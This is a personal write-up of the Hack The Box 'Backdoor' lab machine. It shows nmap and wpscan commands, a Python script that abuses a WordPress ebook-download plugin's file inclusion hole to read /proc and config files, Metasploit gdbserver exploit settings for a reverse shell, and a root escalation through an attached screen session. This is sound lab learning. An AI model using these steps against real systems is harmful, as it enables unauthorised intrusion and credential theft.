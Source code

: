 # Backdoor Machine Writeup

This machine was a lot of fun and it showed me that I'm getting more comfortable and learning from some previous experience. Sticking with the theme I have, there were still some setbacks, and of course they were my own doing. I got started with this machine about a month ago, and a week after starting, I was doing the NCL Team Game and while attempting some registry forensics, I totaled the windows installation on my laptop, which had all my HTB screenshots and progress. Long story short, now my laptop has arch linux! 

Moving forward, I was able to finish this machine relatively quickly. It took me about 2 weeks, but I did the bulk of the work in one day and the other time was spent doing assorted schoolwork or going to my paying job. Now, let's get into the process!

## Step 1: Recon

In the usual fashion, I started this encounter doing some recon. I always start my recon off with a trusty intense scan

    nmap -T4 -A -v 10.10.11.125 

![image](https://user-images.githubusercontent.com/70218428/167235951-3760bf9a-cdfd-4de8-a935-375da2ae0947.png)

We can see that we have a few ports open here, namely SSH, HTTP, and a mystery 1337. In retrospect, 1337 should have been a dead giveaway for reasons we will come back to. I decided to take a shot in the dark and see if the root user could connect via SSH, and thankfully I could not. Moving on, I decided to open a browser and go to http://10.10.11.125, and sure enough there was a wordpress default page. Doing a little more digging, I could find that the host name itself was http://backdoor.htb. I added this to /etc/hosts, and went to a wpscan with my API token

    wpscan --url http://backdoor.htb --enumerate u,ap --api-token 877-cash-now
    
 I will not post the entire file here but it is included in this directory. Interestingly enough, according to wpscan there are no plugins on this site and there were no obvious vulnerabilities. That being said, if you went to http://10.10.11.125/wp-content/uploads, you could see the index that way. This gave me an idea to poke around wordpress for a moment and see if it would show me the plugins folder and sure enough, it did. 
 
 ![wp-content_plugins](https://user-images.githubusercontent.com/70218428/167236407-92bf354a-2221-4d12-aab9-e54452a0d782.png)

This shows us an ebook download plugin and a hello.php file. Poking around the ebook download readme file, you can see the version and get some hints that it does not account for local file inclusion or directory traversal. Looking into the usage of the plugin, you can pass a custom URL to the PHP fields and move around the server as you want. Below is the exploitdb entry for this particular entry. 

![exploit_db_entry](https://user-images.githubusercontent.com/70218428/167236530-f72b8ae6-0296-408f-97ea-2e6dada4a46f.png)

Finding this out, I got a little trigger happy and grabbed any file I thought could be useful since I had just learned LFI a few days before. I ended up grabbing passwd, hosts, ssh_config, sshd_config, and wp-config. Passwd revealed an account for user, ssh was a bust, and wp-config gave me admin db credentials (this is a surprise tool that will help us later). _All these files will be in a folder in this directory.

This was the point I got stuck for a while. I tried a number of different things that all failed, and eventually came back to researching port 1337 and LFI. The biggest problem here was figuring out _what process_ was using that port. At this point, some inspiration and lots of frustration hit in the form of learning some Python. 

The idea I had was to use the LFI vulnerability I had stumbled onto and my recently growing knowledge of linux to search through the /proc directory, iterate through all the pids, and return the cmdline file contents with the LFI vulnerability. This took some trial and error with python since I was very new to it, and it took me about 20 minutes to realize it was not working because I spelled my URL wrong. 

    import requests

    for i in range (0,1000):
    
        tgturl = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/" + str(i) + "/cmdline"
        req = requests.get(tgturl)
        length = len(req.content)
        if (length > 90): // 90 was a rough margin of error. If the file did not exist, the length was usually about 84
            print("PID: " + str(i))
            print("   URL: " + tgturl+'\n')
            print("   Response: " + str(req.content) + '\n')
            
This was honestly really cool to get working. Like a lot of other students, I felt somewhat competent with code but also had absolutely no idea how to make it do anything outside of project style code. This introduced me to some more practical use code and _pre built libraries_, which were completely foreign to me at this point in time. 


![gdb_server_response](https://user-images.githubusercontent.com/70218428/167237298-baf97414-71f3-4e58-895d-252d2762d285.png)

_Ignore the random final exam notes in the background. I was absolutely in a class, but when inspiration hits, I listen_

Besides all the nerd stuff above, I now knew what that mystery port 1337 was doing. It was running a nicely vulnerable instance of **gdbserver**, which brings us to step 2.

## Step 2: Exploit the Vulnerable

At this time, I decided it was about time to fire up good ole Metasploit and do some research. Running a search for GDB showed me one exploit, which was my choice. I ran this set of commands:

    use exploit/multi/gdb //I am writing this after the fact, it's the only GDB exploit so you should be able to find it
    set rhosts 10.10.11.125
    set rport 1337
    set lhost tun0 // This just set it to my vpn adapter, making it a little easier
    set lport 3333
   
When I hit run, I immediately ran into a wall because the payload was a x86 meterpreter shell and this box was an x64. Thankfully, it was just as simple as changing the payload to x64 and hitting run

![meterpreter_in](https://user-images.githubusercontent.com/70218428/167237354-d0a031c8-fefc-4978-92e0-bee7c3020590.png)

Now, I won't tell you how long I spent trying to spawn a bash shell from the default meterpreter line. I also won't tell you how long it took me to realize meterpreter has a built in shell command. Let's just say, it was enough time for me to drive about 40 miles, sit and research, and almost miss a different class. Thankfully I did realize eventually that you can just spawn a shell with the command "shell", and with that you capture the user flag!

Now, it was time to figure out how to escalate to root. I tried bringing in some stuff like linPEAS, but HTB had already planned for that. My next step was researching some of the other running processes, and I stumbled across a neat one called Screen, which happened to be running as root. I read through the MAN page, and found out you can attach and detach the screens as long as you were in a valid terminal, and it was just my luck that this one was free floating. 


![plist](https://user-images.githubusercontent.com/70218428/167237609-fb014bd3-c356-4d5f-8a78-fd382029f2c3.png)

![screen_man](https://user-images.githubusercontent.com/70218428/167237588-2adf49c9-af38-4e4d-9694-9dc82d6685a8.png)


Valid Terminal:
![shell_deployed](https://user-images.githubusercontent.com/70218428/167237428-b1e6f91e-a39a-45d9-ad05-b7c555e93c5a.png)

When the /bin/sh shell was spawned, I could run the command screen -x root/root, which attaches the screen that was floating around as root to the current session, effectively escalating privileges and opening the door to the root flag!

![root](https://user-images.githubusercontent.com/70218428/167237655-25fd279b-b2a1-4568-8525-7efc7ee0dfa9.png)

## Step 3: Extra Toys

At this point, the machine was complete, but I had a random impulse at 2 AM the following morning when I realized that I had the admin database credentials. I got up, went back through all the exploitation steps (which by now were muscle memory from the amount of times I had done it wrong), and ended up changing the user and root passwords and connecting via SSH to make life a little easier. I jumped to root and went into mysql, which did not even need creds since I was acting as root. I went in and updated the database entry for the admin account in wordpress, setting the password to password, and I signed into the dashboard. 

![wordpress_db_change](https://user-images.githubusercontent.com/70218428/167237737-f99da66c-3c8c-4f6d-874a-fd9d5fab6985.png)

I gotta say, it was fun but completely useless. No hidden toys for me.. _this time_

![wp_dashboard](https://user-images.githubusercontent.com/70218428/167237747-141105a4-d092-4718-b3af-0866ef4e361e.png)

But with that, I was done!

This machine was honestly a ton of fun. It was challenging but when it all clicked it made a lot of sense. It had some really neat exploitation involved and used LFI in a way I never would have considered otherwise. It introduced me to Python, and got me more familiar with some things and reminded me that I despise wordpress, but I sure do love when wordpress is the target. Maybe that's just old anger from my days of web design.

With that being said, I hope you enjoy! Happy Hunting!

